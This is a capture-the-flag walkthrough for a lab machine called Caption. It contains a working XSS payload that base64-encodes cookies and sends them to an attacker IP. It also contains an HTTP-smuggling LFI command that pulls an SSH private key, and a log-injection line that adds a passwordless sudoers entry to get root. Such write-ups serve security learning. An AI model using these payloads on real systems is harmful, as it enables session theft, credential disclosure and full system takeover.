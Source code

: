 Walkthrough of Caption (Dec-27-2024)
(Post the unintenional route fix, I skip all the uneeded things I did)

We start of by running an nmap scan on `10.10.11.33`. The scan shows port 8080 open. Navigating on caption.htb:8080, we see a GitBucket service, and we are able to access the commits made by root.
On one of the commits, we can see hard-coded credentials for the user `margo`. Going back to the main website on caption.htb, we can log in with those credentials.

#Getting the admin cookie

The exploit is on the /firewalls page. I used Burspuite to execute it. We start of by fuzzing for potential headers, and we found that the header X-Forwarded-Host returns a different response, thus making it
vulenrable. Upon testing for XSS, we find out that it is vulnerable to it. The exploit is found at the `utm_source?url=...` that we can see in the Burpsuite response. If we open a Python HTTP Server, we see that
it successfully reaches back to us, so now we can craft a payload that returns the admin cookie.

This is the payload.js:
```js
async function getData() {
        var string = document.cookie;
        var encodedString = btoa(string);
        var url = 'http://yourip/hello?str=' + encodedString
        fetch(url).then(function(response) {
                return;
        }).catch(function(err) {
                return;
        });
}

getData();
```

Then we do `cat payload.js | base64 | tr -d '\n'; echo` to convert it to base64, and it should be something like that:
```
YXN5bmMgZnVuY3Rpb24gZ2V0RGF0YSgpIHsKCXZhciBzdHJpbmcgPSBkb2N1bWVudC5jb29raWU7Cgl2YXIgZW5jb2RlZFN0cmluZyA9IGJ0b2Eoc3RyaW5nKTsKCXZhciB1cmwgPSAnaHR0cDovLzEwLjEwLjE2LjM3L2hlbGxvP3N0cj0nICsgZW5jb2RlZFN0cmluZwoJZmV0Y2godXJsKS50aGVuKGZ1bmN0aW9uKHJlc3BvbnNlKSB7CgkJcmV0dXJuOwoJfSkuY2F0Y2goZnVuY3Rpb24oZXJyKSB7CgkJcmV0dXJuOwoJfSk7Cn0KCmdldERhdGEoKTsK
```

The exploit should look something like this:
```
X-FORWARDED-HOST: "></script><script>eval(atob(/YXN5bmMgZnVuY3Rpb24gZ2V0RGF0YSgpIHsKCXZhciBzdHJpbmcgPSBkb2N1bWVudC5jb29raWU7Cgl2YXIgZW5jb2RlZFN0cmluZyA9IGJ0b2Eoc3RyaW5nKTsKCXZhciB1cmwgPSAnaHR0cDovLzEwLjEwLjE2LjYxOjgwL2hlbGxvP3N0cj0nICsgZW5jb2RlZFN0cmluZwoJZmV0Y2godXJsKS50aGVuKGZ1bmN0aW9uKHJlc3BvbnNlKSB7CgkJcmV0dXJuOwoJfSkuY2F0Y2goZnVuY3Rpb24oZXJyKSB7CgkJcmV0dXJuOwoJfSk7Cn0KCmdldERhdGEoKTsK/.source));</script><script src="
```
If we start a local HTTP Server and refresh the page a couple of times, we get the admin cookie in base64 format and to decode it we run `echo "admin cookie" | base64 -d`

#HTTP smuggling

Logs are still not accessible, but it is hinted that we can perform HTTP smuggling in order to access it.
I used a Python tool called `h2csmuggler`. In the server, there is a .cpr directory. This directory holds an LFI exploit, and the paylod is as follows:
```
python3 h2csmuggler.py -H "Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM1MjE4NzUyfQ.d4-wtGXYkoY69q2ZsDfG0u5asuW35hH6d-rLuRW69Y0" -X GET -x http://caption.htb/ http://caption.htb/download?url=http://127.0.0.1:3923/.cpr/%252Fhome%252Fmargo%252F.ssh%252Fid_ecdsa
```
We can use this to download the `id_ecdsa` private key in order to log into margo with SSH.
```sh
chmod 600 id_ecdsa
ssh -i id_ecdsa margo@caption.htb
```
Now we can grab the user flag.

#Escalating to root

If we check on the GitBucket service again, we see a LogService repo, and if we check inside server.go we see a block of code that hints at command injection. The server executes as root logs. If we do
`ps aux | grep server.gp` we can see it's executed as root. With the help of our powerful tool ChatGPT and a couple other fellow users, I was able to craft the exploit to get root.
Below are the steps.
In the host PC:

```sh
cd /tmp
touch client.py
touch log_service.thrift
```
(sudo apt install thrift-compiler and also make a virtual env in python and install any needed packages)
client.py:
```py
import sys
sys.path.append('/tmp/gen-py')

from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService

# Create a connection to the Thrift service
transport = TSocket.TSocket("127.0.0.1", 9090)
transport = TTransport.TBufferedTransport(transport)
protocol = TBinaryProtocol.TBinaryProtocol(transport)
client = LogService.Client(protocol)

# Open the connection
transport.open()

# Call the vulnerable function
try:
    result = client.ReadLogFile("/tmp/malicious.log")
    print("Response from server:", result)
except Exception as e:
    print("Error:", e)

# Close the connection
transport.close()
```
log_service.thrift
```
namespace go log_service
namespace py log_service
     
service LogService {
    string ReadLogFile(1: string filePath)
}
```
In margo's /tmp directory inside a file called `malicious.log`:
`127.0.0.1, "user-agent":"Mozilla'; echo 'margo ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers;#"`
That is then executed by the Python script. The log file adds the user `margo` to the /etc/sudoers file with no password, so now `margo` can do `sudo su` without
a password. Doing this switches the user to root, and then we can get the root flag.

Personal note: search for tools, in this case there was a tool `h2csmuggler` that another user told me I could take advantage of instead of manually doing the HTTP smuggling in Burpsuite.
